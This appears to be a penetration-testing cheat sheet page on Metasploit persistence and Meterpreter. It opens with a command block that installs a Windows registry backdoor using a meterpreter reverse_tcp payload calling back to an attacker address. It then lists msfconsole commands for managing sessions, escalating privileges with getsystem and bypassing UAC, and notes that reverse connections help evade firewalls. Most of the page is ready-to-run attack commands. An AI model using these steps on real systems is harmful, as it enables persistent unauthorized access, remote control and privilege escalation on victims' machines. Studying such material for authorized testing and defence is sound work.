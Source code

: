 {% tab title="Set backdoor" %}
```bash
# Set backdoor
use exploit/windows/local/persistence
set reg_name backdoor
set exe_name backdoor
set startup SYSTEM
set session 1
set payload windows/meterpreter/reverse_tcp
set exitfunc process
set lhost 192.168.99.100
set lport 5555
set DisablePayloadHandler false
exploit 
# if the backdoor doesn't start immediately, use 
# "exploit -j" instead
```
{% endtab %}
{% endtabs %}

## Meterpreter

{% hint style="info" %}
**Goals**

* Get a powerful shell on an exploited machine
* Take control over an exploited machine
* Install backdoors
{% endhint %}

Provides advanced features to:

* Gather information.
* Transfer files between the attacker and victim machines.
* Install backdoors and more.
* `meterpreter` can both wait for a connection on the target machine or connect back to the attacker machine.
* A Meterpreter session is an advanced shell on the target machine.
* Most used configurations are:
  * _bind\_tcp_: runs a server process on the target machine that waits for connections from the attacker machine.
  * _reverse\_tcp_: performs a TCP connection back to the attacker machine \(helping to evade firewall rules\).

Inside a `msfconsole`:

```bash
> search meterpreter
> set payload windows/meterpreter/reverse_tcp
> exploit
> sessions -l # current opened sessions
> sessions -i 1 # resume session 1
> sysinfo # retrieve info about the exploited machine
> ifconfig # prints the network configuration
> route # routing info
> getuid # which user is running the process exploited
> getsystem # Runs a privilege escalation routine on the target machine

# Bypass UAC (User Account Control policy of modern Windows OSs)
> background # switch from a meterpreter session to the msf console
> search bypassuac
> use exploit/windows/local/bypassuac
> set session 1
> exploit
> getuid

```